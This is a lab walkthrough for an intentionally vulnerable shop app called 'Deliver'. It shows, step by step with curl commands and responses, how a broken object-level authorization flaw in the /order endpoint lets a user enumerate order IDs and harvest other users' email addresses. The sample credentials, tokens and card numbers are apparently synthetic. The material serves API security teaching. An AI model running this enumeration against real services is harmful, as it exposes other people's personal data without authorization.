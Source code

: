# Resource enumeration

Attackers will experiment and try to find other ways of using API endpoints that just those used by the web or mobile applications.

## Attempt 1

Try different ways of calling the user endpoint with another user's email address. In real life a penetration tester (or attacker) would create multiple accounts for testing. Here you can use one of the pre-loaded users. Odille won't mind if you use their account: `overrillo0@redcross.org` and password `QkYvxNZUiP`.

First get a JWT token.

```bash
curl -X POST http://<hostname>:<port>/auth/login -H "Content-Type: application/json" -d "{\"email\":\"overrillo0@redcross.org\",\"password\":\"QkYvxNZUiP\"}"

{"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2M2VlNzVkMzRkNWQ4YmI0MTAwNDNkN2IiLCJlbWFpbCI6Im92ZXJyaWxsbzBAcmVkY3Jvc3Mub3JnIiwicGFzc3dvcmQiOiIkMmIkMTAkSkR3dnhpVFFPVllKaGpCUXJ2QXJwLlM4VTg1RW1WaTE1VThocmM3NXYvQ0lpRmFvSzV0UzYiLCJmaXJzdF9uYW1lIjoiT2RpbGxlIiwibGFzdF9uYW1lIjoiVmVycmlsbG8iLCJhZGRyZXNzIjoiOSBEcmV3cnkgQ3Jvc3NpbmciLCJjaXR5IjoiRG9uZ2R1IiwiY291bnRyeSI6IkNoaW5hIiwicGhvbmUiOiIrODYgKDcwOSkgNzEzLTA2MzAiLCJjcmVkaXRfY2FyZCI6IjQwNDEzNzg3NTUzNzc0NzMiLCJpYXQiOjE2ODA1MjE0NTd9.M4NKqiTQbkIDfPZgXu2ME4tSh_k1-9OAloTYYFLkhBQ"}
```

Now try the user endpoint that was used by the web application. We know it filters automatically by the user that is logged in, but we just want to see what we get. 

```bash
curl -X GET http://<hostname>:<port>/user -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

{"_id":"63ee75d34d5d8bb410043d7b","email":"overrillo0@redcross.org","password":"$2b$10$JDwvxiTQOVYJhjBQrvArp.S8U85EmVi15U8hrc75v/CIiFaoK5tS6","first_name":"Odille","last_name":"Verrillo","address":"9 Drewry Crossing","city":"Dongdu","country":"China","phone":"+86 (709) 713-0630","credit_card":"4041378755377473"}
```

We can see that it returns the same information as we've previously seen as payload for the JWT token. Let's see if we can find another way of accessing this data which might lead to being able to access other users' information.

Try passing in the MongoDB _id value as a resource ID. You'll notice it fails. 

```bash
curl -X GET http://<hostname>:<port>/user/63ee75d34d5d8bb410043d7b -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /user/63ee75d34d5d8bb410043d7b</pre>
</body>
</html>
```

Try passing in the email address as a resource ID. This fails as well.

```bash 
curl -X GET http://<hostname>:<port>/user/overillo0@redcross.org -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>Cannot GET /user/overrillo0@redcross.org</pre>
</body>
</html>
```

Finally, let's try passing in the email address as a query parameter. 

```bash
curl -X GET http://<hostname>:<port>/user?email=overillo0@redcross.org -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

{"_id":"63ee75d34d5d8bb410043d7b","email":"overrillo0@redcross.org","password":"$2b$10$JDwvxiTQOVYJhjBQrvArp.S8U85EmVi15U8hrc75v/CIiFaoK5tS6","first_name":"Odille","last_name":"Verrillo","address":"9 Drewry Crossing","city":"Dongdu","country":"China","phone":"+86 (709) 713-0630","credit_card":"4041378755377473"}
```

Interestingly, we get a valid response. Let's see if we can query  another email address with this user's JWT token. We can use one of the email addresses we've uncovered before. Unfortunately, it returns the user info for the logged in user, so it seems like the query parameter is ignored. 

```bash
curl -X GET http://<hostname>:<port>/user?email=cdonnell5@desdev.cn -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

{"_id":"63ee75d34d5d8bb410043d7b","email":"overrillo0@redcross.org","password":"$2b$10$JDwvxiTQOVYJhjBQrvArp.S8U85EmVi15U8hrc75v/CIiFaoK5tS6","first_name":"Odille","last_name":"Verrillo","address":"9 Drewry Crossing","city":"Dongdu","country":"China","phone":"+86 (709) 713-0630","credit_card":"4041378755377473"}
```

## Attempt 2

From the mitmproxy logs we've seen that the order history for the user is retrieved by a single API call to the `/order` endpoint. A common pattern with APIs is to query a collection of resources via an endpoint, and fetch the details for a specific resource by specifying the resource ID in the url. 

Let's try to fetch the details for a single order. We know order 2234 was placed by Odille and we'll try this first. 

```bash
curl -X GET http://<hostname>:<port>/order/2234 -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

{"_id":"640f23b2739bbddad5f5f251","number":2234,"user":{"_id":"63ee75d34d5d8bb410043d7b","email":"overrillo0@redcross.org"},"orderLines":[{"product":{"_id":"63ee75d3af3b3774c258adea","number":4,"title":"Mens Casual Slim Fit","price":15.99,"description":"The color could be slightly different between on the screen and in practice. / Please note that body builds vary by person, therefore, detailed size information should be reviewed below on the product description.","category":"men's clothing","image":"img/71YXzeOuslL._AC_UY879_.jpg","rating":{"rate":2.1,"count":430,"_id":"642abdc078417119cee7b3c7"}},"quantity":1,"_id":"640f23b2739bbddad5f5f252","total":15.99},{"product":{"_id":"63ee75d3af3b3774c258adf7","number":5,"title":"John Hardy Women's Legends Naga Gold & Silver Dragon Station Chain Bracelet","price":695,"description":"From our Legends Collection, the Naga was inspired by the mythical water dragon that protects the ocean's pearl. Wear facing inward to be bestowed with love and abundance, or outward for protection.","category":"jewelery","image":"img/71pWzhdJNwL._AC_UL640_QL65_ML3_.jpg","rating":{"rate":4.6,"count":400,"_id":"642abdc078417119cee7b3c9"}},"quantity":2,"_id":"640f23b2739bbddad5f5f253","total":1390},{"product":{"_id":"63ee75d3af3b3774c258adf5","number":18,"title":"MBJ Women's Solid Short Sleeve Boat Neck V ","price":9.85,"description":"95% RAYON 5% SPANDEX, Made in USA or Imported, Do Not Bleach, Lightweight fabric with great stretch for comfort, Ribbed on sleeves and neckline / Double stitching on bottom hem","category":"women's clothing","image":"img/71z3kpMAYsL._AC_UY879_.jpg","rating":{"rate":4.7,"count":130,"_id":"642abdc078417119cee7b3c8"}},"quantity":3,"_id":"640f23b2739bbddad5f5f254","total":29.55}],"date":"2023-03-13T13:22:58.166Z","total":1435.54,"__v":0}
```

Interestingly enough, this works! Let's see if we can get the details of others orders. Let's just increase the order number and see what we get.

```bash
curl -X GET http://<hostname>:<port>/order/2235 -H "Content-Type: application/json" -H "Authorization: Bearer <token>"

{"_id":"640f23b2739bbddad5f5f22c","number":2235,"user":{"_id":"63ee75d34d5d8bb410043d7c","email":"pchampkin2@t.co"},"orderLines":[{"product":{"_id":"63ee75d3af3b3774c258adf5","number":18,"title":"MBJ Women's Solid Short Sleeve Boat Neck V ","price":9.85,"description":"95% RAYON 5% SPANDEX, Made in USA or Imported, Do Not Bleach, Lightweight fabric with great stretch for comfort, Ribbed on sleeves and neckline / Double stitching on bottom hem","category":"women's clothing","image":"img/71z3kpMAYsL._AC_UY879_.jpg","rating":{"rate":4.7,"count":130,"_id":"642abe4d78417119cee7b3d0"}},"quantity":3,"_id":"640f23b2739bbddad5f5f22d","total":29.55},{"product":{"_id":"63ee75d3af3b3774c258adea","number":4,"title":"Mens Casual Slim Fit","price":15.99,"description":"The color could be slightly different between on the screen and in practice. / Please note that body builds vary by person, therefore, detailed size information should be reviewed below on the product description.","category":"men's clothing","image":"img/71YXzeOuslL._AC_UY879_.jpg","rating":{"rate":2.1,"count":430,"_id":"642abe4d78417119cee7b3cf"}},"quantity":4,"_id":"640f23b2739bbddad5f5f22e","total":63.96}],"date":"2023-03-13T13:22:58.160Z","total":93.51,"__v":0}
```

This is where it becomes really interesting! Like most applications, the Deliver application uses an object modeling framework ([Mongoose](https://mongoosejs.com/) in this case). Such frameworks simplify the developer's job for handling data stored in databases. You can see here that the developer lets the object modeling framework fetch and fill related objects in the response. Here we have the full product details as well as a limited set of user details. The most important piece of information for us, is the user's email address. 

This shows us that an attacker can use any user account to query order information of any user - themselves and other users - simply by trying order numbers. I've written a helper script that will enumerate order numbers between a minimum and maximum value and extract all unique email addresses for the orders found. 

```bash
deliver orders token.txt emails.txt
______ _____ _     _____ _   _ ___________
|  _  \  ___| |   |_   _| | | |  ___| ___ \
| | | | |__ | |     | | | | | | |__ | |_/ /
| | | |  __|| |     | | | | | |  __||    /
| |/ /| |___| |_____| |_\ \_/ / |___| |\ \
|___/ \____/\_____/\___/ \___/\____/\_| \_|


Attacking http:/<hostname>:<port>/order

[==================================================] 100% 0.0s


Duration: 12.447 secs
Exctracted 1000 email addresses from 3009 orders
``` 

The `emails.txt` file now contains all email addresses of all registered users that have placed an order at some point. We already know that we can reset the password for any account we know, which means that we have now successfully compromised the entire set of account data in the DELIVER app.

In this example we've seen another occurrence of an [OWASP API top 10](https://owasp.org/www-project-api-security/) vulnerability:

- [API1-2019: Broken Object-Level Authorization](https://github.com/OWASP/API-Security/blob/master/2019/en/src/0xa1-broken-object-level-authorization.md) as we are able to access data from other users.